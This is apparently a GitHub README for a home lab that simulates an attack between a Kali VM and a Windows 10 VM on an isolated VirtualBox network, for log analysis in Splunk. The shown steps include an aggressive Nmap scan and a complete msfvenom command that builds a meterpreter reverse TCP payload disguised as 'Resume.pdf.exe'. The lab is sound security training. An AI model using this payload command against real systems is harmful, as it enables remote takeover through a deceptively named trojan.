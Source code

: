 # Simulating Cyber Attacks and Log Analysis with VirtualBox and Splunk

## Objective
The project aimed to create a simulated network attack environment using VirtualBox to connect a Windows 10 VM (victim) and a Kali Linux VM (attacker). The primary goal was to execute an attack and analyze the resulting logs with Splunk to understand attack patterns and enhance network security skills.

### Skills Learned

- **Virtual Machine Management:** Setting up and managing virtual machines using Oracle VM VirtualBox.
- **Penetration Testing:** Using Metasploit for vulnerability exploitation and payload delivery.
- **Malware Creation:** Ability to create and deploy custom malware using 'msfvenom' with a reverse TCP payload.
- **SIEM Log Analysis:** Using Splunk for log ingestion, querying, and analysis to detect and investigate suspicious activities.
- **Command-Line Proficiency:** Executing various command-line tools and utilities on both Windows and Linux platforms.
- **Cybersecurity Concepts:** Understanding of attack vectors, defense mechanisms, and network security best practices.

### Tools Used

- Virtualization Software: Oracle VM VirtualBox
- Operating Systems: Windows 10 (Victim) and Kali Linux (Attacker)
- Security Tools: Metasploit Framework, Nmap, Splunk
- Networking: Internal Network Configuration in VirtualBox

## Steps

1. **Network Configuration**:
     * Set both VMs to use an internal network for isolated communication.
     * Verify the connection between the virtual machines using the ping command.
  
2. **Scanning for Open Ports**:
   * On Kali, ran 'Nmap -A 192.168.20.10 -Pn'. This command performs an aggressive scan (-A) on the target IP without pinging the host first (-Pn). It detects open ports, services, OS details, and potential vulnerabilities.
   * After running the command, identified that port 3389 (RDP) is open.

     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/02ae843a11ce0da73895b2bf4bae0e7cce666d24/Project%20Images/Screenshot%202024-06-28%20131152.png)

3. **Creating Malware**:
     * Used msfvenom to create a malware payload with command 'msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f exe -o Resume.pdf.exe'
     * This command generates a Windows executable (-f exe) with a reverse TCP payload that causes the Windows machine to connect back to the attacker's IP on port 4444, and outputs it as 'Resume.pdf.exe'.


